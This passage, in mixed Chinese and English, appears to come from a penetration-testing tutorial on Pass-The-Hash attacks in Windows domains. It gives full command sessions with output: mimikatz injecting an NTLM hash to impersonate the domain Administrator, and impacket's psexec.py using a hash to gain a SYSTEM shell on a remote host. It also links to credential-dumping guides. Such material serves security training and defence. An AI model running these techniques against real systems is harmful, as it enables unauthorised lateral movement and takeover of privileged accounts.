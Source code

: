 NT hashes can also be extracted [from the local SAM database](https://www.hackingarticles.in/credential-dumping-sam/) or the [NTDS.dit database in Domain Controllers](https://www.hackingarticles.in/credential-dumping-ntds-dit/).

win上可能需要[inject the NT hash in a process](https://www.praetorian.com/blog/inside-mimikatz-part1/) with [mimikatz ](https://github.com/gentilkiwi/mimikatz)来在远程机器上用内置工具或IT工具 [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)等认证。此外像 [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) 的特殊工具能将NT哈希当参数传递

```powershell
###Pass-The-Hash with mimikatz
PS C:\Users\Anakin\Downloads> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::pth /user:Administrator /domain:contoso.local /ntlm:b73fdfe10e87b4ca5c0d957f81de6863
user    : Administrator
domain  : contoso.local
program : cmd.exe
impers. : no
NTLM    : b73fdfe10e87b4ca5c0d957f81de6863
  |  PID  1080
  |  TID  2664
  |  LSA Process is now R/W
  |  LUID 0 ; 2124820 (00000000:00206c14)
  \_ msv1_0   - data copy @ 000001E6F01AE490 : OK !
  \_ kerberos - data copy @ 000001E6EF86CCD8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001E6F01D7E38 (32) -> null
```

（注意：当注入其他用户的NT哈希（或Kerberos票证）时，这将只允许您在远程连接中模拟其他用户，而不是在本地计算机中）

Linux上实施Pass-The-Hash用 [impacket ](https://github.com/SecureAuthCorp/impacket)可以直接把NT哈希当参数

```powershell
###Pass-The-Hash with psexec.py of impacket
$ psexec.py contoso.local/Anakin@192.168.100.10 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 192.168.100.10.....
[*] Found writable share ADMIN$
[*] Uploading file WFKqIQpM.exe
[*] Opening SVCManager on 192.168.100.10.....
[*] Creating service AoRl on 192.168.100.10.....
[*] Starting service AoRl.....
[!] Press help for extra shell commands
The system cannot find message text for message number 0x2350 in the message file for Application.

(c) Microsoft Corporation. All rights reserved.
b'Not enough memory resources are available to process this command.\r\n'
C:\Windows\system32>whoami
nt authority\system
```
